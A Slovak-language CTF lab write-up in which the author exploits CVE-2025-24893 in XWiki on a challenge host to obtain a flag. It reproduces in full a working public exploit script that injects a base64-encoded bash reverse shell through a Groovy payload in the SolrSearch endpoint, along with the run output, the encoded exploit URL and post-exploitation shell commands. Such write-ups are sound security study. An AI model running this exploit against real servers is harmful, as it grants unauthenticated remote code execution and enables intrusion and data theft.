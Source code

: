 # Zadanie

Hi, emergency troubleshooter,

recent studies suggest that the intense heat and hard labor of solar technicians often trigger strange, vivid dreams about the future of energetics. Over the past few days, technicians have woken up night after night with the same terrifying screams "Look, up in the sky! It’s a bird! It’s a plane! It’s Superman! Let’s roast it anyway!".

Find out what’s going on, we need our technicians to stay sane.

Stay grounded!

- [http://intro.falcon.powergrid.tcc/](http://intro.falcon.powergrid.tcc/)

**Hints**

- Be sure you enter flag for correct chapter.
- In this realm, challenges should be conquered in a precise order, and to triumph over some, you'll need artifacts acquired from others - a unique twist that defies the norms of typical CTF challenges.
- Chapter haiku will lead you.

## Riešenie

Haiku pri tejto úlohe znie

```
2 The Vendor

Bits beneath the shell,
silent thief in circuits' sleep—
firmware leaves the nest.
```

Kliknutím na nadpis haiku som dostal na odkaz `http://thevendor.falcon.powergrid.tcc/`, konkrétne ma presmerovalo na `http://thevendor.falcon.powergrid.tcc/xwiki/bin/view/Main/`, kde je jeden článok, resp. akási dokumentácia, zrejme k tomu, čo som videl v streame z prvej úlohy.

![](vendor1.png)

Tu som sa pokúšal o brutforce mena a hesla, ale neúspešne.  Skúsil som ešte, či tu nie sú nejaké iné zraniteľné waypointy.

```
/firmware             (Status: 301) [Size: 169] [--> http://thevendor.falcon.powergrid.tcc/firmware/]
/robots.txt           (Status: 200) [Size: 1842]
```

robots.txt obsahuje excludy na xwiki podstránky pre indexovacie boty, nič zaujímavé na nich som nenašiel a /firmware zobrazuje len toto

![](vendor2.png)

Enumeráciou tohto endpointu som nič nezískal.

Napokon som našiel, že xwiki platforma, na ktorej je tento článok, má známu zraniteľnosť `CVE-2025-24893` a dokonca aj známy exploit na [GitHub - dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC: CVE-2025-24893 is a critical unauthenticated remote code execution vulnerability in XWiki (versions &lt; 15.10.11, 16.4.1, 16.5.0RC1) caused by improper handling of Groovy expressions in the SolrSearch macro.](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC), 

```python
import base64
import urllib.parse
import subprocess
import time
from colorama import init, Fore, Style

# Initialize colorama
init(autoreset=True)


def banner():
    print(Fore.CYAN + r"""    

   _______      ________    ___   ___ ___  _____     ___  _  _   ___   ___ ____  
  / ____\ \    / /  ____|  |__ \ / _ \__ \| ____|   |__ \| || | / _ \ / _ \___ \ 
 | |     \ \  / /| |__ ______ ) | | | ) | | |__ ______ ) | || || (_) | (_) |__) |
 | |      \ \/ / |  __|______/ /| | | |/ /|___ \______/ /|__   _> _ < \__, |__ < 
 | |____   \  /  | |____    / /_| |_| / /_ ___) |    / /_   | || (_) |  / /___) |
  \_____|   \/   |______|  |____|\___/____|____/    |____|  |_| \___/  /_/|____/ 



""" + Fore.YELLOW + "           CVE-2025-24893 - XWiki Groovy RCE Exploit")
    print(Fore.YELLOW + "                   exploit by @dollarboysushil\n")


def send_curl_request(url):
    print(Fore.CYAN + "\n[+] Sending exploit via curl...\n")
    try:
        result = subprocess.run(
            ["curl", "-i", url],
            capture_output=True,
            text=True,
            timeout=10
        )

        if "200 OK" in result.stdout:
            print(Fore.GREEN +
                  "[+] Exploit delivered successfully! Check your listener.")
        else:
            print(
                Fore.RED + "[-] Exploit may not have succeeded (non-200 response).")

    except subprocess.TimeoutExpired:
        print(Fore.RED + "[-] Curl timed out!")
    except Exception as e:
        print(Fore.RED + "[-] Curl request failed:", e)


# Show banner
banner()

# Inputs
url = input(
    Fore.CYAN + "[?] Enter target URL (including http:// or https:// e.g http://10.10.10.18.10:8080): ")
ip = input(Fore.CYAN + "[?] Enter your IP address (for reverse shell): ")
port = input(Fore.CYAN + "[?] Enter the port number: ")

print(Fore.YELLOW + "\n[+] Crafting malicious reverse shell payload...")
time.sleep(1)

# Reverse shell payload
revshell = f"bash -c 'sh -i >& /dev/tcp/{ip}/{port} 0>&1'"
base64_revshell = base64.b64encode(revshell.encode()).decode()

# Groovy payload
payload = (
    f"}}}}}}{{{{async async=false}}}}{{{{groovy}}}}"
    f"\"bash -c {{echo,{base64_revshell}}}|{{base64,-d}}|{{bash,-i}}\".execute()"
    f"{{{{/groovy}}}}{{{{/async}}}}"
)

# Encode payload (preserve some special chars)
encoded_payload = urllib.parse.quote(payload, safe="=,-,")

# Final URL
exploit = f"{url}/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}"

# Show example
print(Fore.LIGHTBLACK_EX +
      "\n[+] Sample Format:\n    http://target/xwiki/bin/get/Main/SolrSearch?media=rss&text=<payload>")

# Display exploit
print(Fore.MAGENTA + "\n[+] Final Exploit URL:\n" + Fore.WHITE + exploit)

# Send the curl request
time.sleep(1)
send_curl_request(exploit)

print(Fore.YELLOW +
      "\n[+] Done. Awaiting reverse shell connection on " + ip + ":" + port + " ...\n")
```

ktorý je priamo určený na získanie reverse shellu. Výborne.. Tak nachystám penelope a spúšťam skript.

```
$ python CVE-2025-24893-dbs.py


   _______      ________    ___   ___ ___  _____     ___  _  _   ___   ___ ____
  / ____\ \    / /  ____|  |__ \ / _ \__ \| ____|   |__ \| || | / _ \ / _ \___ \
 | |     \ \  / /| |__ ______ ) | | | ) | | |__ ______ ) | || || (_) | (_) |__) |
 | |      \ \/ / |  __|______/ /| | | |/ /|___ \______/ /|__   _> _ < \__, |__ <
 | |____   \  /  | |____    / /_| |_| / /_ ___) |    / /_   | || (_) |  / /___) |
  \_____|   \/   |______|  |____|\___/____|____/    |____|  |_| \___/  /_/|____/



           CVE-2025-24893 - XWiki Groovy RCE Exploit
                   exploit by @dollarboysushil

[?] Enter target URL (including http:// or https:// e.g http://10.10.10.18.10:8080): http://thevendor.falcon.powergrid.tcc
[?] Enter your IP address (for reverse shell): 10.200.0.44
[?] Enter the port number: 9010

[+] Crafting malicious reverse shell payload...

[+] Sample Format:
    http://target/xwiki/bin/get/Main/SolrSearch?media=rss&text=<payload>

[+] Final Exploit URL:
http://thevendor.falcon.powergrid.tcc/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho,YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMjAwLjAuNDQvOTAxMCAwPiYxJw==%7D%7C%7Bbase64,-d%7D%7C%7Bbash,-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

[+] Sending exploit via curl...

[+] Exploit delivered successfully! Check your listener.

[+] Done. Awaiting reverse shell connection on 10.200.0.44:9010 ...
```

Skript pekne naviguje, zadal som mu, čo pýtal a už mám shell.

Vlajka bola ako v niektorých iných úlohách v env premenných, zadaním `echo $FLAG` ju získam.

```shell
$ echo $FLAG
FLAG{gwNd-0Klr-lsMW-YgZU}
```

Vŕta mi však hlavou ten firmware, tak som ešte vyhľadal priečinky s názvom firmware a našiel som

```shell
vendor@a6f94ff5473c:/opt/vendorwiki$ find / -type d -name "firmware" 2>/dev/null
/sys/class/firmware
/sys/firmware
/usr/lib/firmware
/data/firmware
```

používateľský priečinok sa z týchto javí len jeden

```shell
vendor@a6f94ff5473c:/opt/vendorwiki$ ls -la /data/firmware
total 8436
drwxr-xr-x 2 root root    4096 Oct  3 19:39 .
drwxr-xr-x 1 root root    4096 Oct  3 19:40 ..
-rw-rw-rw- 1 root root    1145 Oct  3 19:39 index.html
-rw-rw-rw- 1 root root 2799338 Oct  3 19:39 prodsite1.lol
-rw-rw-rw- 1 root root 3079673 Oct  3 19:39 prodsite2.lol
-rw-rw-rw- 1 root root 2611306 Oct  3 19:39 prodsite3.lol
-rwxrwxrwx 1 root root   39100 Oct  3 19:39 roostguard-firmware-0.9.bin
-rw-rw-rw- 1 root root   85166 Oct  3 19:39 thevendor-logo.png
```

A tu je nejaký firmware aj iné súbory, exfiltrujem, možno sa zíde. 

## Vlajka

    FLAG{gwNd-0Klr-lsMW-YgZU}
